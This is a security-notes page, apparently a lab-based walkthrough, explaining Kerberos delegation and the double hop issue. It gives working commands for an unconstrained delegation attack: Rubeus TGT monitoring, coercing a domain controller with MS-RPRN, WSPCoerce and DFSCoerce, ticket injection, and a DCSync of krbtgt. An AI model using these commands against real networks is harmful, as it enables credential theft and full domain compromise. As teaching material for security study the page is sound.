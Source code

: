 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Delegations

## Double Hop Issue

Kerberos Delegation is a mechanism designed to address the **Kerberos double hop issue**, which arises when an authenticated user accesses a remote service (first hop), and that service must then access another resource on a different system (second hop) on behalf of the same user.&#x20;

<figure><img src="../../../.gitbook/assets/double_hop (1).png" alt=""><figcaption><p>The Kerberos double hop issue.</p></figcaption></figure>

This issue stems from the fact that both **access tokens and credentials are tied to a user’s logon session**. The **access token defines the user’s local security context**—used by the operating system to control what the user can do on the local machine—while **credentials**, such as NTLM hashes or Kerberos tickets, **represent the user’s network security context** and are used to authenticate to remote systems. Therefore, unless delegation is configured, **a service that receives an access token cannot leverage that token to authenticate as the user to another system**.

<figure><img src="../../../.gitbook/assets/double_hop_lsass (1).png" alt=""><figcaption><p>Access tokens and credentials are tied to a user's logon session.</p></figcaption></figure>

To overcome the Kerberos double hop issue, two primary approaches exist:

* [**CredSSP**](https://learn.microsoft.com/en-us/windows/win32/secauthn/credential-security-support-provider): Stores user credentials in cleartext on the first hop, allowing the second hop to reuse them. While effective, this method introduces significant security concerns due to plaintext credential exposure.
* **Kerberos Delegation**: Enables services to reuse a user's Kerberos-based authentication to access other resources across the network. This allows impersonation beyond the local system without exposing credentials directly, and it can be configured with varying levels of control and restriction depending on the delegation type.

There are three main types of Kerberos delegation:

<table><thead><tr><th width="159.33331298828125">Delegation Type</th><th>Description</th></tr></thead><tbody><tr><td>Unconstrained</td><td>Grants a service unrestricted ability to <strong>impersonate a user to any service in the domain</strong>.</td></tr><tr><td>Constrained</td><td>Limits impersonation to <strong>specific services on specific hosts</strong>. If a user authenticates using a method other than Kerberos (e.g., NTLM), the service can still delegate using <strong>Protocol Transition</strong>, converting the authentication method into a Kerberos ticket to perform delegation.</td></tr><tr><td>Resource-Based Constrained</td><td>Defined on the resource server rather than the delegating service. This allows the target server to <strong>specify which principals are allowed to delegate to it</strong>.</td></tr></tbody></table>

## Unconstrained

When a user authenticates to a service configured for Unconstrained Delegation (UD), the DC **includes the user’s TGT inside the TGS** response. The service decrypts this TGS using its own NTLM password hash, extracts the TGT, and stores it in LSASS. With this TGT available, the service can now request additional TGS tickets on behalf of the user for any service in the domain, allowing the server to **fully impersonate the user** over the network.

<figure><img src="../../../.gitbook/assets/unconstrained_delegation.png" alt=""><figcaption><p>The uncostrained delegation process (image adapted from <a href="https://thalpius.com/2024/05/31/microsoft-defender-for-identity-recommended-actions-unsecure-kerberos-delegation/">here</a>).</p></figcaption></figure>

This behavior introduces a critical security risk: **if a host configured for UD is compromised, any user who authenticates to it exposes their TGT to the attacker**, including privileged users such as Domain Admins and machine accounts (e.g. `dc01$`). The host becomes a passive collection point for TGTs. The attacker can to wait for privileged users to connect naturally or to **actively force** a connection from a privileged account to the compromised UD host. Some Windows services make this coercion possible:

<table><thead><tr><th width="252.333251953125">Protocol</th><th width="171.33331298828125">Service</th><th width="211.0001220703125">Default on Server OS</th><th width="110.6666259765625">Ports</th></tr></thead><tbody><tr><td>MS-RPRN</td><td>Print Spooler</td><td>Yes</td><td>445</td></tr><tr><td>MS-WSP</td><td>Windows Search</td><td>No (Default on Client OS)</td><td>445</td></tr><tr><td>MS-DFSNM (MDI detects this)</td><td>DFS Namespaces</td><td>No</td><td>445</td></tr></tbody></table>

### Tools

{% tabs %}
{% tab title="1. Recon" %}
Enumerate hosts with UD configured using PowerView or the ActiveDirectory module:

```powershell
# PowerView
Get-DomainComputer -Unconstrained

# AD module
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```
{% endtab %}

{% tab title="2. Listen" %}
Launch Rubeus in monitor mode from the compromised host:

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe monitor /targetuser:DCORP-DC$ /interval:5 /nowrap
[*] Action: TGT Monitoring
[*] Target user     : DCORP-DC$
[*] Monitoring every 5 seconds for new TGTs
```
{% endcode %}
{% endtab %}

{% tab title="3. Coerce" %}
Force a connection from the attacking machine using [MS-RPRN](https://github.com/leechristensen/SpoolSample), [WSPCoerce](https://github.com/slemire/WSPCoerce), or [DFSCoerce](https://github.com/jfma7/DFSCoerce-exe):

{% hint style="warning" %}
When leveraging WSP or DFS use the netBIOS name and not the FQDN as with RPRN.
{% endhint %}

{% code overflow="wrap" %}
```powershell
# Print Spooler (the error is expected)
.\MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
RpcRemoteFindFirstPrinterChangeNotificationEx failed.Error Code 1722 - The RPC server is unavailable.

# Windows Search
.\WSPCoerce DCORP-DC DCORP-APPSRV

# Distributed File System
.\DFSCoerce-andrea.exe -t dcorp-dc -l dcorp-appsrv
```
{% endcode %}

This will result in capturing the Base64-encoded TGT on the Rubeus listener:

{% code overflow="wrap" %}
```powershell
[*] 6/30/2025 7:03:17 AM UTC - Found new TGT:

  User                  :  DCORP-DC$@DOLLARCORP.MONEYCORP.LOCAL
  StartTime             :  6/29/2025 10:02:16 PM
  EndTime               :  6/30/2025 8:01:36 AM
  RenewTill             :  7/6/2025 10:01:36 PM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

    doI...BTA==

[*] Ticket cache size: 1
```
{% endcode %}
{% endtab %}

{% tab title="4. Exploit" %}
The ticket can be injected in the session and used directly:

{% code overflow="wrap" %}
```powershell
# Inject the ticket
> .\Rubeus.exe ptt /ticket:doI...BTA==

# Confirm the ticket is cached
> klist
Cached Tickets: (1)

#0>     Client: DCORP-DC$ @ DOLLARCORP.MONEYCORP.LOCAL
        Server: krbtgt/DOLLARCORP.MONEYCORP.LOCAL @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize
```
{% endcode %}

Perform the [DCSync](dcsync.md) attack:

{% code overflow="wrap" %}
```powershell
SafetyKatz.exe "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Constrained



## Resource-based



## Resources

* Some amazing lectures about Kerberos Delegation ([video](https://www.youtube.com/watch?v=p9QFdITuvgU), [video](https://www.youtube.com/watch?v=byykEId3FUs))
* A great presentation about Kerberos Delegation Attacks ([slides](https://shenaniganslabs.io/media/Constructing%20Kerberos%20Attacks%20with%20Delegation%20Primitives.pdf))
* Some good information about Delegations ([article](https://www.thehacker.recipes/ad/movement/kerberos/delegations/))
* Some great lectures on Constrained Delegation Attacks ([video](https://www.youtube.com/watch?v=gzqq2r6cZjc), [video](https://www.youtube.com/watch?v=Y2Wh2e6eZVc))
* A great lecture about Resource-Based Constrained Delegation ([video](https://www.youtube.com/watch?v=vlKwCTvp5_w))
* A nice box walkthough based on Resource-Based Constrained Delegation ([video](https://www.youtube.com/watch?v=xMTCZt5DRB0))
* In-depth article about Resource-Based Constrained Delegation ([article](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html))

